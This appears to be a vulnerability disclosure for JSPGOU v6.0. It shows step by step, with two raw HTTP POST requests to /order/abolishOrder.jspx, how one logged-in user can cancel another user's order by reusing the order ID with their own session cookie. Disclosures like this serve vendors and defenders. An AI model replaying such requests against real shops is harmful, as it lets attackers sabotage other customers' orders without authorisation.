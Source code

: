 ## Information

```c
Exploit Title:JSPGOU v6.0-Ultra vires order cancel
Exploit date:02.06.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.jeecms.com/
Affect Version:JSPGOU v6.0
Description:JSPGOU v6.0 foreground user has a horizontal ultra vires vulnerability. Ordinary users can cancel orders from other users.
```

## How to Exploit

Step  1：Register two users

- testabc/123456
- test111/123456

Step  2：Use testabc user to create order information. Then click cancel order and use burpsuite to capture the package.

![order](img/order.png)

```javascript
POST /order/abolishOrder.jspx HTTP/1.1
Host: 192.168.174.144:8080
Content-Length: 12
Accept: application/json, text/javascript, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.174.144:8080
Referer: http://192.168.174.144:8080/order/myorder.jspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1605675257,1605704689,1605871061,1606205262; JSESSIONID=662CC586E146F86F59CC4F7C1BFF0C99; clientlanguage=zh_CN
Connection: close

orderId=1208
```

![cacel](img/cancel.png)

Step 3：Drop the request packet and refresh the page to ensure that the order is not deleted

![drop](img/drop.png)

Step 4：In another browser, use test111 to log in to the system to get its cookie information

![login2](img/login2.png)



Step 5：Using the cookie of the test111 user to resend the order cancellation request packet of the testabc user, it is found that the order of the testabc user can be successfully cancelled beyond the authority

```javascript
POST /order/abolishOrder.jspx HTTP/1.1
Host: 192.168.174.144:8080
Content-Length: 12
Accept: application/json, text/javascript, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.174.144:8080
Referer: http://192.168.174.144:8080/order/myorder.jspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1622555281; JSESSIONID=1C4C7C15CA3148D21B08EB8F97E8A89C; clientlanguage=zh_CN
Connection: close

orderId=1208
```

![cancel2](img/cancel2.png)

![success](img/success.png)

## Reference

https://www.jeecms.com/

